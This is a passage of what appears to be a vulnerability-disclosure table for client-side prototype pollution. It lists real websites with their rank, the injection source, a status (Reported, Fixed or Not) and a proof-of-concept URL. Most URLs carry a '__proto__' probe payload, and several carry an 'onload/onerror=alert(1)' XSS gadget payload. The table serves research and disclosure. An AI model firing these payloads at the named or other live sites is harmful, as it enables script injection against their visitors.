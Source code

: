 |beveragedynamics.com|356489|URL|-|Reported|`https://beveragedynamics.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bevindustry.com|105626|URL|-|Reported|`https://www.bevindustry.com/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|bhartipay.com|527062|URL search|-|Fixed|`https://www.bhartipay.com/pricing.html/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|bia.edu|453|URL search|, Cookie-M|Fixed|`http://bia.edu/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|bibigousa.com|463241|URL search|-|Reported|`https://bibigousa.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bibliocms.com|642980|URL search|-|Reported|`https://bibliocms.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bigdaddyunlimited.com|263713|URL search|, URL-M|Reported|`https://bigdaddyunlimited.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bigdadni.com|770373|URL|-|Reported|`https://www.bigdadevolution.com/en_US/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv&__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|bigfrenchies.com|552085|URL search|, URL-M|Fixed|`https://www.bigfrenchies.com/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|biggreenegg.com|67754|URL search|, URL-M|Reported|`https://biggreenegg.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bigpicture.io|690307|URL search|, Cookie-M, URL-M|Reported|`https://bigpicture.io/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bigpicture.net|59129|URL search|-|Not|`https://bigpicture.net/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bikini.com|205097|URL search|-|Fixed|`https://www.bikini.com/collections/lounging-around/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|bilet.com|59654|URL search|-|Reported|`https://bilet.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bintray.com|21037|URL search|-|Reported|`https://bintray.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bio-itworldexpo.com|642868|URL|, URL-M|Reported|`https://bio-itworldexpo.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|birzhaplus.ru|901611|URL search|, Cookie-M|Reported|`https://birzhaplus.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bitbucket.org|1028|URL search|, URL-M|Not|`https://bitbucket.org/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bitcointradevolume.com|474687|URL search|, URL-M|Reported|`https://bitcointradevolume.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bitsnbyteserp.co.za|564946|URL|-|Reported|`https://bitsnbyteserp.co.za/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bizcapital.com.br|899015|URL search|, Cookie-M, URL-M|Reported|`https://bizcapital.com.br/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|blackburndesign.com|247677|URL search|, Cookie-M|Reported|`https://blackburndesign.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|blackmonster.kr|922756|URL|-|Reported|`https://blackmonster.kr/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|blackpod.co.kr|392747|URL|-|Reported|`https://blackpod.co.kr/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|blancheporte.fr|149687|URL|, URL-M|Reported|`https://blancheporte.fr/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|blimed.no|891684|URL search|-|Reported|`https://blimed.no/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|blindsgalore.com|193291|URL search|, URL-M|Reported|`https://blindsgalore.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|blissoma.com|744467|URL search|, URL-M|Reported|`https://blissoma.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|blockworks.co|198280|URL|, URL-M|Reported|`https://blockworks.co/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|blockworksgroup.io|501241|URL|, URL-M|Reported|`https://blockworksgroup.io/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|blogmutt.com|548895|URL search|-|Reported|`https://www.verblio.com/meet-our-writers/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|blonded.co|261471|URL search|-|Fixed|`https://blonded.co/blogs/posts/tagged/pics/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|bloomsthechemist.com.au|742611|URL search|-|Reported|`https://bloomsthechemist.com.au/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bluecricketdesign.net|615585|URL search|-|Reported|`https://bluecricketdesign.net/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|blueelephant.co|146102|URL search|, URL-M|Reported|`https://blueelephant.co/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bno.nl|358916|URL|-|Reported|`https://bno.nl/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bnpmedia.com|66414|URL search|-|Reported|`https://bnpmedia.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`